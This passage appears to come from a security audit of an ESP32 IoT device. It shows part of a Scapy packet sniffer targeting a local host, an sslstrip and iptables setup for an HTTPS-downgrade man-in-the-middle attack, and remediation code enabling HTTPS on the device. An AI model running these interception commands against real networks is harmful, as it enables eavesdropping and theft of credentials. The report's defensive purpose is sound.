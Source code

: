 ```python
print("[*] Press Ctrl+C to stop\n")

# Capture packets
sniff(
    iface="wlan0",
    filter="host 192.168.1.100 and (port 82 or port 81 or port 1883)",
    prn=packet_callback,
    store=0
)
```

**SSL Strip Attack for HTTPS Backend:**

```bash
# Setup SSL Strip
$ sslstrip -l 8080 -w sslstrip.log

# IPTables redirect
$ iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
$ iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080

# Even if backend uses HTTPS, attacker can downgrade to HTTP
# ESP32 will accept the downgraded connection
```

### Remediation

**IMMEDIATE (Week 1) - Enable HTTPS:**

```cpp
#include <WiFiClientSecure.h>
#include <WebServer.h>

// Option 1: Self-signed certificate (for testing)
const char* serverCert = R"EOF(
-----BEGIN CERTIFICATE-----
[Certificate PEM data]
-----END CERTIFICATE-----
)EOF";

const char* serverKey = R"EOF(
-----BEGIN RSA PRIVATE KEY-----
[Private key PEM data]
-----END RSA PRIVATE KEY-----
)EOF";

// Option 2: Let's Encrypt (production)
// Use ACME client to obtain certificates

WebServerSecure server(443);

void setup() {
    // Set certificate and key
    server.setServerKeyAndCert_P(serverKey, strlen(serverKey), 
                                  serverCert, strlen(serverCert));
    
    // Force HTTPS
    server.begin();
    
    Serial.println("HTTPS server started on port 443");
}
```

